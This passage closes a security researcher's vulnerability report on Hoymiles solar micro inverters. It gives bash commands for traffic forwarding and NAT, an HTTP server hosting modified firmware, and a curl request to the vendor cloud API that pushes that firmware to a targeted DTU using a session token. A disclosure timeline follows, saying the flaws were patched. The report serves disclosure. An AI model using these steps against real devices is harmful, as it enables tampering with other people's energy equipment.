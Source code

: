 2. Setup IP tables:
```bash
#!/bin/bash
sudo systemctl restart dnsmasq
sudo sysctl -w net.ipv4.ip_forward=1
sudo sysctl -w net.ipv4.conf.all.send_redirects=0
sudo iptables -t nat -A POSTROUTING -j MASQUERADE
```

4. Start the http server
```bash
sudo python3 -m http.server 80
```

Put your modified firmware update files in the same directory:
* DTU.hex for the DTU
* MI.hex for the MI

### Start Update

A session token is needed, from the account linked to the targeted DTU and MI devices.

Here is the command to update the DTU:
```bash
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H "content-type: application/json" -X POST -H "Authorization: [SESSION_TOKEN]" -d '{"action":2,"dev_type":1,"dev_sn":"[DTU_SERIAL_NUMBER]","dtu_sn":"[DTU_SERIAL_NUMBER]","data":{"upg_patch_id":1234,"file_uri":"/DTU.hex","file_name":"DTU.hex","file_crc":0}}'
```
Note that the CRC is ignored.

## Conclusion

In this report different vulnerabilities affecting a micro inverter system have been described. 
We can hope that in the future proper security will be implemented on these devices/systems. The energy sector needs to catch up as far as security is concerned! 

## Disclosure

* 2023-09-01: Detailed disclosure to the BSI via „Meldeformular“
* 2023-09-07: Mail to the BSI, asking for feedback. 
* 2023-09-10: Complete pdf report sent to the BSI per mail. Still no answer.
* 2023-09-22: Mail to the BSI, asking for feedback. Still no answer. 
* 2023-09-24: Contact to Heise.
* 2023-09-25: First vulnerabilities have been patched.
* 2023-09-27: First answer from the BSI. 
* 2023-09-28: First article @Heise.
* 2023-09-29: All cloud vulnerabilities have been patched, Heise confirmed.
* 2023-09-29: Main parts of the report has been sent to the manufacturer.
* 2024-01-02: This report
